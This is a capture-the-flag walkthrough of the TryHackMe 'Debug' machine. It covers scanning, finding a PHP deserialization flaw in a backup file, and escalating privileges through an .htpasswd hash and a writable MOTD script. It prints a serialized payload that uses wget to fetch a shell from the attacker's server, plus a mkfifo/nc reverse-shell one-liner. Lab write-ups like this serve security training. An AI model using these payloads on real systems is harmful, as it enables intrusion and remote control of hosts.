 
[TryHackMe Link](https://tryhackme.com/room/debug){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```s linenums="1" hl_lines="6 11"
    # Nmap 7.93 scan initiated Sat Nov 18 10:58:51 2023 as: nmap -sC -sV -O -oN nmap.sh 10.10.155.251
    Nmap scan report for 10.10.155.251
    Host is up (0.38s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 44ee1eba072a5469ff11e349d7dba901 (RSA)
    |   256 8b2a8fd8409533d5fa7a406a7f29e403 (ECDSA)
    |_  256 6559e4402ac2d70577b3af60dacdfc67 (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=11/18%OT=22%CT=1%CU=36574%PV=Y%DS=5%DC=I%G=Y%TM=6558DF
    OS:68%P=aarch64-unknown-linux-gnu)SEQ(SP=109%GCD=1%ISR=10A%TI=Z%II=I%TS=A)S
    OS:EQ(SP=109%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST
    OS:11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=6
    OS:8DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M
    OS:508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T
    OS:4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
    OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
    OS:%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%
    OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

    Network Distance: 5 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sat Nov 18 10:59:36 2023 -- 1 IP address (1 host up) scanned in 45.84 seconds

  ```

## <b>Enumeration</b>

In the initial exploration, I visited the default HTTP port 80 and encountered a website displaying the typical Apache welcome page. 

<img id="image1" />

Then, I used the feroxbuster tool for directory enumeration that revealed a hidden directory named **backup** within the `/html` directory.

<img id="image2" />

Within this directory, I discovered a backup file containing `PHP` and HTML-related files. 

<img id="image3" />

I smelled a rat particularly around a PHP file hinting at a `PHP deserialization` vulnerability. Analyzing the code, I identified a PHP class associated with an HTML form comprising two variables, namely `form_file` and `message`.

```php linenums="1" hl_lines="21-24"
<?php

class FormSubmit {
public $form_file = 'message.txt';
public $message = '';
public function SaveMessage() {
$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];
	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";
}

public function __destruct() {
file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';
}

}

// Leaving this for now... only for debug purposes... do not touch!
$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);
$application = new FormSubmit;
$application -> SaveMessage();
?>
```

This code segment caught my attention, as it attempted to unserialize an object based on user input from the GET parameter.

```php
$debug = $_GET['debug'] ?? ''; 
$messageDebug = unserialize($debug); 
```

Further examination revealed a **destructor** function executed during termination, creating or appending a file on the web server. This showed a classic insecure object serialization vulnerability.

## <b>Initial Access</b>

I crafted a **payload.php** with same PHP class and variables, and I created a system command to download a reverse shell from my Python server.

```php
<?php

/**
 * 
 */
class FormSubmit
{
	public $form_file = 'file.php';
	public $message = '<?php system("wget http://10.17.3.217:8000/shell.php -O shell.php") ?>';
}
$obj = new FormSubmit();
echo serialize($obj);

?>
```

Upon executing this PHP file, I obtained its associated serialized object. 

```s
O:10:"FormSubmit":2:{s:9:"form_file";s:8:"file.php";s:7:"message";s:70:"<?php system("wget http://10.17.3.217:8000/shell.php -O shell.php") ?>";}
```

The website had a form request and Using Burp Suite, I intercepted the form request and customised debug parameter to my requirements. 

<img id="image4" />

Injecting the serialized payload into the `debug` parameter, the object was deserialized, extracting the values of **form_file** and **message** I provided.

<img id="image5" />

<img id="image6" />

Assuming that `file.php` was already created, I accessed the file while listening on my end, immediately got a reverse shell. 

```
http://10.10.155.251/shell.php
```

<img id="image7" />

## Privilege Escalation

### Gaining user access (James)

The current user was identified as `www-html`. Seeking to escalate privileges, I explored the **/home** directory and discovered a user named `james`. Running linpeas.sh and inspecting hidden files, I located `.htpasswd`, containing James's password hash. Using hashcat, I successfully decrypted the password.

```
james:$apr1$zPZx2A{--REDACTED--}3b9UTt9Nq1
```

Closing the current shell, I logged in via the SSH service on port 22, finding the **user.txt** flag. 

### Gaining root access

Subsequently, my focus shifted to elevating privileges to root. A note in the system: `Note-To-James.txt` hinted at a custom SSH banner. 

```
Dear James,

As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it? 

But there's still one thing I'd like you to do, before the submission.

Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D

I gave you access to modify all these files :) 

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

rootv
```

Researching online, I discovered that modifying the **MOTD** file in the `/etc/` directory could achieve this. Upon locating the motd file, identified as executable and writable, I appended a reverse shell code, ultimately achieving root access!

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.17.3.217 5432 >/tmp/f
```

<img id="image8" />

<script>

// JSON object
const data = {
    "desc": "Linux Machine CTF! You'll learn about enumeration, finding hidden password files and how to exploit php deserialization!",
    "ip":  "10.10.155.251",
    "ports": "22/tcp,ssh,OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux protocol 2.0);80/tcp,http,Apache httpd 2.4.18 ((Ubuntu))",
    "difficulty":"medium",
    "id": "5"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }


}

updateHTML();
</script>